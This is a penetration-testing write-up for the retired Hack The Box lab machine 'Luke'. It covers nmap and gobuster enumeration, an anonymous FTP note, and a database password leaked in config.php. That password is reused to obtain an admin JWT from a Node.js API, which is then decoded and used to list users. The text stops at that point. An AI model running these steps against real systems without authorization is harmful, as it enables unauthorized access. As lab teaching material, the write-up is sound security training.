 # Luke

This is the write-up for the box Luke that got retired at the 14th September 2019.
My IP address was 10.10.12.212 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.137    luke.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/luke.nmap 10.10.10.137
```

```markdown
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.12.212
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp   open  http    Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
|_http-title: Luke
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti
```

## Checking FTP (Port 21)

As anonymous login is allowed we will look what we can find on the FTP service.
```markdown
ftp 10.10.10.137
```

We find one directory with one file _webapp/for_Chihiro.txt_ that says:
```markdown
Dear Chihiro !!

As you told me that you wanted to learn Web Development and Frontend, I can give you a little push by showing the sources of 
the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of our security policies ! 

Derry
```

So we eventually enumerated two usernames.

## Checking HTTP (Port 80)

There is nothing interesting on this website so we launch _gobuster_ to enumerate directories:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u hxxp://10.10.10.137/ -x php
```

This is the output we get:
```markdown
/login.php (Status: 200)
/member (Status: 301)
/management (Status: 401)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/config.php (Status: 200)
/LICENSE (Status: 200)
```

- _/member_ has nothing interesting
- _/management_ gives us a login prompt
- _/login.php_ gives us a login page
- _/config.php_ gives us a string that says:

```markdown
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword  = 'Zk6heYCyv6ZE9Xcg';
$db = "login";

$conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
```

Now we got some credentials we are going to test on every login page we found but none of them 

## Checking Node.js Express Framework (Port 3000)

This page displays only some JSON output and nothing else. Lets enumerate this webpage for directories, too:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u hxxp://10.10.10.137:3000/ -x php
```

This is the output we get:
```markdown
/login (Status: 200)
/users (Status: 200)
```

- /users just redirects us back
- /login says that we need to authenticate

As we got some credentials from before lets try to authenticate on this with _curl_:
```markdown
curl -XPOST hxxp://10.10.10.137:3000/login -d 'username=root&password=Zk6heYCyv6ZE9Xcg'
```

The response of the page is **Forbidden** so we now know that this gets accepted and we eventually need the correct username. 
When we try is with **admin** and the same password, we get a different response!
```markdown
curl -XPOST http://10.10.10.137:3000/login -d 'username=admin&password=Zk6heYCyv6ZE9Xcg'
```

Response:
```json
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTcwNzQ5LCJleHAiOjE1NjkwNTcxNDl9.KYhdXTx04_hLWVM9ap83ktAdQ5YjAujQBa_sJkPMJBQ"}
```

This is a JSON Web Token (JWT) that we can decipher to get more information.

### JSON Web Token

The values of the "token" are just Base64 decoded and can be read by decoding it.
The values are seperated by a _dot_ and should be decoded individially.

- eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
  - This gives us information about the token like the algorithm that was used for signing
  - Decoded: {"alg":"HS256","typ":"JWT"}
  
- eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTcwNzQ5LCJleHAiOjE1NjkwNTcxNDl9
  - This is the data of the token
  - {"username":"admin","iat":1568970749,"exp":1569057149}
  
- KYhdXTx04_hLWVM9ap83ktAdQ5YjAujQBa_sJkPMJBQ
  - This is the signature of the token and can't be deciphered that easily but we don't need it anyway
  
Now lets use this token on the the Node.js framework page with _curl_:
```markdown
curl hxxp://10.10.10.137:3000/ -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTcwNzQ5LCJleHAiOjE1NjkwNTcxNDl9.KYhdXTx04_hLWVM9ap83ktAdQ5YjAujQBa_sJkPMJBQ'
```

Response:
```json
{"message":"Welcome admin ! "}
```

After authenticating we should look into the _/users_ directory that we found earlier:
```markdown
curl -s http://10.10.10.137:3000/users -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTcwNzQ5LCJleHAiOjE1NjkwNTcxNDl9.KYhdXTx04_hLWVM9ap83ktAdQ5YjAujQBa_sJkPMJBQ' | jq
```

I am using **jq** so the JSON output is prettier and we get this:
```json
[                                                                                                                                                                                                        
  {                                                                                                 
    "ID": "1",                                                                                      
    "name": "Admin",                                                                                
    "Role": "Superuser"                                                                             
  },                                                                                                
  {                                                                                                                                                                                                      
    "ID": "2",                                                                                      
    "name": "Derry",                                                                                                                                                                                     
    "Role": "Web Admin"                                                                             
  },                                                                                                
  {                                                                                                 
    "ID": "3",                                                                                      
    "name": "Yuri",                                                                                 
    "Role": "Beta Tester"                                                                           
  },                                                                                                
  {
    "ID": "4",
    "name": "Dory",
    "Role": "Supporter"
  }
]
```

